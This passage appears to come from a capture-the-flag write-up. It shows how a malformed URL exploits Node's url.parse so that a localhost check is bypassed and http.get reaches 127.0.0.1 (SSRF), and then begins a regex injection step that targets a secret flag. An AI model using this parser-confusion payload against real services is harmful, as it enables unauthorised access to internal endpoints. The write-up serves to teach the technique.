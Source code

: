 ## URL Confusion

URL confusion is a vulnerability which arises from the non-standardized implementations of url parsing functions. In this case we want to make sure that `isLocalhost` does not resolve our URL to have a localhost hostname, however that the `httpGet` functionality actually reaches `127.0.0.1`

```js
const httpGet = url => {
    return new Promise((resolve, reject) => {
        http.get(url, res => {
            res.on('data', () => {
                resolve(true);
            });
        }).on('error', reject);
    });
}
```

After reading this [blog post](https://snyk.io/blog/url-confusion-vulnerabilities/) about it, I started playing around with the `parse` function to try and bypass the check.

Finally I landed on the following:

```
http:\\\/127.0.0.1:1337/deactivate?secretCode=
```

If we print the object which is returned when the mentioned sting is passed to `parse` we get:

```js
Url {
  protocol: 'http:',
  slashes: true,
  auth: null,
  host: '',
  port: null,
  hostname: '',
  hash: null,
  search: '?secretCode=%22',
  query: 'secretCode=%22',
  pathname: '//127.0.0.1:1337/deactivate',
  path: '//127.0.0.1:1337/deactivate?secretCode=%22',
  href: 'http:////127.0.0.1:1337/deactivate?secretCode=%22'
}
```

`hostname` is null! We have bypassed the `isLocalhost`, additionally this is treated as a valid URL by `http.get`, letting us acheive our SSRF

## Regex Injection

The way the secret is validated is using the following function:

```js
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```
